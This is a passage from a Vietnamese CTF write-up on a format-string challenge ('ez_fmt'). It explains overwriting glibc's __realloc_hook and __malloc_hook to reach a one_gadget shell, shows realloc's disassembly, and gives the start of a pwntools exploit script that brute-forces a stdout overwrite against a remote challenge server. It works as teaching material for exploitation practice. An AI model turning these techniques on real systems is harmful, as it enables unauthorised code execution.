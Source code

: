 ```c
```

Nếu ta để ý thì ngoài __free_hook, __malloc_hook là 2 target mà ta thường nhắm tới, còn có __realloc_hook, __memalign_hook,... Nhưng ở đây thì ta chỉ cần để ý đến __realloc_hook vì ta có thể thấy trong hàm realloc có kha khá các lệnh thanh đổi trực tiếp đến các thanh ghi nằm trong các điều kiện cần thỏa mãn của one_gadget:
```c
...
   0x00007f6f40d24ec0 <+64>:	pop    rbx
   0x00007f6f40d24ec1 <+65>:	pop    rbp
   0x00007f6f40d24ec2 <+66>:	pop    r12
   0x00007f6f40d24ec4 <+68>:	pop    r13
   0x00007f6f40d24ec6 <+70>:	pop    r14
   0x00007f6f40d24ec8 <+72>:	pop    r15
...
   0x00007f6f40d24f89 <+265>:	pop    rbx
   0x00007f6f40d24f8a <+266>:	pop    rbp
   0x00007f6f40d24f8b <+267>:	pop    r12
   0x00007f6f40d24f8d <+269>:	pop    r13
   0x00007f6f40d24f8f <+271>:	pop    r14
   0x00007f6f40d24f91 <+273>:	pop    r15
...
   0x00007f6f40d250e9 <+617>:	pop    rbx
   0x00007f6f40d250ea <+618>:	pop    rbp
   0x00007f6f40d250eb <+619>:	pop    r12
   0x00007f6f40d250ed <+621>:	pop    r13
   0x00007f6f40d250ef <+623>:	pop    r14
   0x00007f6f40d250f1 <+625>:	pop    r15
   0x00007f6f40d250f3 <+627>:	jmp    rax
```

Vậy thay vì overwrite one_gadget trực tiếp vào __malloc_hook, ta có thể overwrite one_gadget vào __realloc_hook và overwrite realloc()+offset vào __malloc_hook, offset cụ thể ở đây mình chọn là realloc()+24. Sau khi overwrite xong ta chỉ cần trigger malloc bằng %70000c là sẽ có được shell. Để hiểu rõ hơn bạn có thể thử debug script exploit sau đây của mình (nó brute vkl 1/256 nên thông cảm nếu nó chạy hơi lâu nhé... 🥵🥵🥵):
```python
from pwn import *
from time import sleep

BEDUG = False

context.clear(arch = 'amd64')
libc = ELF('./libc.so.6')

if BEDUG == True:
    io = process('./ez_fmt_patched')
    #gdb.attach(io, '''
    #b * main+112
    #continue
    #''')
else:
    io = remote('192.81.209.60', 2022)

io.recvuntil(b'ice :##\n')

def brutewrite_stdout():
    #pause()
    one = b'c'*23
    io.sendline(one)
    for i in range(4, 11):
        pone = b'\xa0'+p8(i * 0x10 + 6)
        nice = b'%'+str(u16(pone)).encode('utf-8')+b'c%9$hn'
        #sleep(1)
```